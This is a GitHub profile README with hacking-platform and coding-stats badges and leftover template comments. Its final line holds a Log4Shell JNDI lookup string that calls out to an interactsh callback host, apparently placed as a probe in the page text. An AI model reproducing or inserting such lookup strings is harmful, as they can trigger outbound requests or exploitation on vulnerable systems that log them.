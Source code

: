 ### Hi 👋🦆     
<a href="https://app.hackthebox.com/profile/435777" target="blank"> <img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" height=""/></a> [![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)  
<br>
[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&theme=transparent&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)  [![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&theme=transparent&layout=compact&langs_count=8&hide=html,css)](https://dev.lwlx.xyz)
<!--![](https://github-readme-streak-stats.herokuapp.com/?user=Lawlez&theme=transparent&hide_border=false)<br/>-->

[![@lawlez's Holopin board](https://holopin.io/api/user/board?user=lawlez)](https://holopin.io/@lawlez)


<!--[![Coding Time stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact&theme=dark&height=20)](https://dev.lwlx.xyz)-->
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
